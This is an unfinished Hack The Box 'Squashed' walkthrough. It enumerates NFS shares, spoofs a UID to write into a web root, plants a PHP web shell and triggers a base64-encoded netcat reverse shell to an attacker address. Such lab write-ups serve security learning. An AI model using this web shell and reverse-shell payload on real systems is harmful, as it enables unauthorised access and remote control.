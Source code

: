 ```yaml
---
title: "HTB Squashed"
date: 2022-12-12T18:22:03-05:00
draft: false
---
```


First we will start with an nmap scan.

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap/squashed.nmap $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-12 18:20 EST
Nmap scan report for 10.129.40.85
Host is up (0.041s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42597/tcp   mountd
|   100005  1,2,3      49332/udp6  mountd
|   100005  1,2,3      57441/tcp6  mountd
|   100005  1,2,3      58098/udp   mountd
|   100021  1,3,4      34613/udp6  nlockmgr
|   100021  1,3,4      34643/tcp   nlockmgr
|   100021  1,3,4      43627/tcp6  nlockmgr
|   100021  1,3,4      58073/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34643/tcp open  nlockmgr 1-4 (RPC #100021)
42597/tcp open  mountd   1-3 (RPC #100005)
43229/tcp open  mountd   1-3 (RPC #100005)
47523/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.17 seconds
```

A lot of information is returned from our nmap scan, but port 2049 looks interesting. It is a NFS share, lets check it out!

```bash
showmount -e $IP

Export list for $IP:
/home/ross    *
/var/www/html *
```

Awesome we can see a users home folder & the web root directory!
Now lets try and mount them, and see what information we can gather.

```bash
sudo mount -t nfs 10.129.40.85:/home/ross /mnt/squashed -o nolock

cd /mnt/squashed && ls -la

drwxr-xr-x 14 1001 1001 4096 Dec 12 18:19 .
drwxr-xr-x  3 root root 4096 Dec 12 18:35 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Dec 12 18:19 .Xauthority
-rw-------  1 1001 1001 2475 Dec 12 18:19 .xsession-errors
-rw-------  1 1001 1001 2475 Oct 31 06:13 .xsession-errors.old

```

Great, now if we run the `tree` command we can see all the files in the directories.

```bash
tree
.
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

8 directories, 1 file
```

interesting this *Passwords.kdbx* file looks interesting!

This is a KeePass file used to store passwords, but it is encrypted, and trying to use `keepass2john` fails... oh well lets move forward.

lets take a look at the www share. we can mount it using the same command as before, but replacing the directory

Once in the share it seems we arent able to access anything, but it show everything being owned by the user id *2017* and group *www-data*

```bash
drwxr-xr--  5 2017 www-data  4096 Dec 12 19:00 www
```

we can abuse this and gain access to the contents of the folder by creating a user and changing their user id

```bash
sudo useradd pwnd

sudo usermod -u 2017 pwnd

sudo su pwnd -c bash
```

Now lets see if we can access the /var/www/html file share.

```bash
pwnd@kali:/mnt$ cd www
pwnd@kali:/mnt/www$ ls -la
total 56
drwxr-xr-- 5 pwnd www-data  4096 Dec 12 19:10 .
drwxr-xr-x 4 root root      4096 Dec 12 18:53 ..
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 css
-rw-r--r-- 1 pwnd www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 images
-rw-r----- 1 pwnd www-data 32532 Dec 12 19:10 index.html
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 js
pwnd@kali:/mnt/www$
```

Awesome! now that we have access to the web root lets put a simple php shell on the site!

```bash
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > pwnd.php
```

Navigating to the website we can see that the shell worked!

![[Pasted image 20221212181527.png]]

Now that we have command execution, lets go for a reverse shell.

I will use the mkfifo shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/
and base64 encode it.

After base64 encoding the reverse shell we should have a string that looks like this
`bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK`

Now lets see if we catch a shell.

Before we run our reverse shell we must stat a listener

```bash
nc -lvnp $port
listening on [any] $port ...
```

navigating back to the site, and using our payload put (you must replace the b64 encoded string with yours):

`/pwnd.php?cmd=echo bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK | base64 -d | bash`

Looking back at our listener you should see this:

![[Pasted image 20221212183603.png]]
Cool! now we have a shell on the box!

*you can upgrade your shell using* 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

***I will have to finish this post later***